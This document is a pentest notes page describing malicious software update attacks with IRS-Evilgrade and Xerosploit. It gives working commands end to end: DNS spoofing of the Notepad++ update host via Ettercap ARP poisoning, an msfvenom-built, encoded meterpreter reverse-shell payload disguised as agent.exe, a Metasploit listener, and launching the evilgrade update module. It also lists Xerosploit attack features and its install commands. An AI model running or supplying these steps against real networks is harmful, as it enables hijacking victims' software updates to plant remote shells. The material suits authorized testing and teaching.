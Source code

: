 # ⭕ Malicious Update

#### Presenting the victim with a malicious payload as a software update package.

## IRS-Evilgrade

{% embed url="https://github.com/infobyte/evilgrade" %}

Evilgrade is a modular framework that allows the user to take advantage of poor upgrade implementations by injecting fake updates. It comes with pre-made binaries (agents), a working default configuration for fast pentests, and has it's own WebServer and DNSServer modules. Easy to set up new settings, and has an autoconfiguration when new binary agents are set.

#### This framework comes into play when the attacker is able to make hostname redirections (manipulation of victim's dns traffic), and such thing can be done on 2 scenarios:

**Internal scenery:**

* Internal DNS access
* ARP spoofing
* DNS Cache Poisoning
* DHCP spoofing
* TCP hijacking
* Wi-Fi Access Point impersonation

**External scenery:**

* Internal DNS access
* DNS Cache Poisoning

#### installation

```
apt install irs-evilgrade
evilgrade
```

#### start/stop web and DNS server

```
evilgrade> start
evilgrade> stop
```

#### list available modules

```
evilgrade>show modules
```

#### Configure a specified module

```
evilgrade>conf sunjava
evilgrade(sunjava)>
```

#### Show all VirtualHosts.

VirtualHost field contains the domains that our webserver is going to emulate for us.

```
evilgrade>show vhosts
```

#### Show options of current module.

**agent:** This is our fake update binary, we have to set the path to where it's located or implement a dynamic fake update binary generation (see ADVANCED).

```
evilgrade(sunjava)>show options
```

#### Show status and victims logs

```
evilgrade>show status
```

### Exploitation

we'll look at manipulating the update process of the popular text editor Notepad++. First, we'll use Ettercap to create a MitM attack position and impersonate the notepad-plus.sourceforge.net server used to check for update availability and to deliver the updated software.

Ettercap includes support for manipulating DNS responses, spoofing the DNS response for any hostname you specify in the etter.dns file. On the top of this slide we append to the etter.dns file an A record for "notepad- plus.sourceforge.net," pointing to the attacker at 10.10.10.10

```
echo "notepad-plus.sourceforge.net" A 10.10.10.10" >> /etc/ettercap/etter.dns
```

Next we invoke Ettercap using ARP spoofing to create a MitM attack using the arguments we examined earlier. After Ettercap starts, press "p" to list the available plugins (the list shown on this slide has been trimmed for space). To load the dns\_spoof plugin, which will leverage the etter.dns file to obtain the list of hosts to impersonate, enter the plugin name "dns\_spoof" and press Enter.

```
sudo ettercap -YqM arp:remote /10.10.10.1-254// /10.10.10.1-254//
```

Evilgrade delivers malicious code with local web server

{% hint style="info" %}
Default is agent.exe in isr-evilgrade/agent directory.

Replace this file (Notepad clone) or change the "agent" parameter in the module.
{% endhint %}

```
cd /usr/share/irs-evilgrade/agent
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=8080 -f exe --platform windows -e x86/shikata_ga_nai -a x86 > agent.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.56.1; set lport 8080;exploit"
```

The LHOST argument used by the attacker can be set to a specific IP address to launch the listener on a specific interface, or it can be set to 0.0.0.0 to listen and accept connections on all interfaces. In this example, we take advantage of the msfconsole "-x" argument, which allows us to specify all the arguments on the command line, separated by semicolons. Be sure to include quotes around these arguments, as shown in the example on this page, to prevent the shell from interpreting the semicolons as additional shell commands.

#### run evilgrade and configure notepadplus module:

```
evilgrade
evilgrade> conf notepadplus
evilgrade(notepadplus)>show options
```

![](<../../.gitbook/assets/image (296) (1) (1) (1).png>)

```
evilgrade(notepadplus)>start
```

we invoke the "evilgrade" executable to invoke the handler for the Notepad++ software update process. At the "evilgrade>" prompt, enter "conf notepadplus" to invoke the Notepad++ handler. For any Evilgrade module, running "show options" will display configuration information and options that can be manipulated using the "set" command, such as the filename to an alternative executable to deliver to the attacker. Finally, launch the module by issuing the "start" command, which will invoke the Evilgrade web server.

![](<../../.gitbook/assets/image (276) (1).png>)

Evilgrade will log to standard output the status of client requests for updates, as shown on this slide. The first log entry indicates that the Notepad++ client requested the getDownLoadUrl.php page, which checks for an available update. The second entry indicates the client's request for the executable file to download and install, followed by the delivery of the agent/agent.exe file to the victim.

{% hint style="info" %}
Evilgrade-like techniques are still possible, but the proliferation of HTTPS makes upgrade attacks a little more difficult. If a pen tester notices a MitM situation is possible during an update, they are more likely to create a custom script that performs the replacement, rather than use a framework.
{% endhint %}

### Demo

{% embed url="https://www.youtube.com/watch?ab_channel=Unownsec&v=nReKwL93Fnk" %}

## Xerosploit

{% embed url="https://github.com/LionSec/xerosploit" %}

Xerosploit is a penetration testing toolkit whose goal is to perform man in the middle attacks for testing purposes. It brings various modules that allow to realise efficient attacks, and also allows to carry out denial of service attacks and port scanning.

### features:

* Port scanning
* Network mapping
* Dos attack
* Html code injection
* Javascript code injection
* Download intercaption and replacement
* Sniffing
* Dns spoofing
* Background audio reproduction
* Images replacement
* Drifnet
* Webpage defacement and more ...

#### installation

```
git clone https://github.com/LionSec/xerosploit
cd xerosploit && sudo python install.py
sudo xerosploit
```

### Demo

{% embed url="https://www.youtube.com/watch?ab_channel=Neodrix&v=35QUrtZEV9U" %}

## Combine with BeFF and Metasploit

{% embed url="https://sploitech.com/exploiting-tools/how-to-do-advanced-mitm-attacks-with-beef-xerosploit" %}
